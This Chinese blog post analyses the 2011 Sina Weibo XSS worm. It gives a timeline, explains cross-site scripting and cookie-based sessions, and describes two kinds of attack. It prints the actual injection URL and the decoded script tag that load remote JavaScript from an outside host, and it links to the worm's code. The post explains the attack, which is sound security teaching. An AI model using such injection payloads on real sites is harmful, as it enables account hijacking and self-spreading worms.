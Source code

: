 ```yaml
---
title: 110629 关于XSS攻击
layout: post
permalink: /2176.html
categories:
  - Code
---
```

6月28日20时14分左右开始，新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建 党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等 微博消息和私信，并自动关注一位名为hellosamy的用户。

事件的经过线索如下：

*   20:14，开始有大量带V的认证用户中招转发蠕虫
*   20:30，2kt.cn中的病毒页面无法访问
*   20:32，新浪微博中hellosamy用户无法访问
*   21:02，新浪漏洞修补完毕

**新浪微博XSS事件**

<div>
  在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。
</div>

<div>
  首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你 运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器 上的程序通话。这就是XSS攻击的最基本思路。
</div>

<div>
  再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态 的协 议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗 口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿使用你登录状态的。
</div>

<div>
  当然，你不必过于担心访问别的网站，在别的网站里的js代码会访问你的微博或是网银的登录页面。因为浏览器的安全性让js只能访问自己所在网站的资源。当然，这是浏览器做的检查，所以，浏览器并不一定会做这个检查，这就是为什么IE6是史上最不安全的浏览器，没有之一。只要你不在用IE6，应该没有这些问题。
</div>

<div>
  <strong>XSS攻击有两种方法，</strong>
</div>

*   一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进 行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。

*   另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。

这次新浪微博事件是第一种，其利用了微博广场页面 <a rel="nofollow" href="http://weibo.com/pub/star" target="_blank">http://weibo.com/pub/star</a> 的一个URL注入了js脚本，其通过<a rel="nofollow" href="http://163.fm/PxZHoxn" target="_blank">http://163.fm/PxZHoxn</a> 短链接服务，将链接指向：

<div>
  <div>
    <div>
      代码:
    </div>
    
    <pre lang="js">http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update</pre>
  </div>
</div>

<div>
  注意，上面URL链接中的其实就是</p> <div>
    <div>
      代码:
    </div>
    
    <pre lang="js">&lt;script src="//www.2kt.cn/images/t.js"&gt;&lt;/script&gt;</pre>
  </div>
  
  <div>
    攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制，所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。</p>
  </div>
  
  <p>
    <strong>其它</strong>
  </p>
  
  <ul>
    <li>
      初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
    </li>
    <li>
      史上最著名的XSS攻击是Yahoo Mail 的<a rel="nofollow" href="http://en.wikipedia.org/wiki/Yamanner" target="_blank">Yamanner </a>蠕 虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。
    </li>
    <li>
      为什么那个用户叫hellosamy，因为<a rel="nofollow" href="http://en.wikipedia.org/wiki/Samy_%28XSS%29" target="_blank">samy</a>是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
    </li>
    <li>
      关于攻击的代码在这里：<a rel="nofollow" href="http://coolshell.cn/wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip" target="_blank">06.28_sina_XSS.txt</a> （编码风格还是很不错的）
    </li>
  </ul>
</div>

转载自:http://www.jobbole.com/entry.php/982-%E6%B5%85%E6%9E%90%E6%96%B0%E6%B5%AA%E5%BE%AE%E5%8D%9A%E7%9A%84XSS%E6%94%BB%E5%87%BB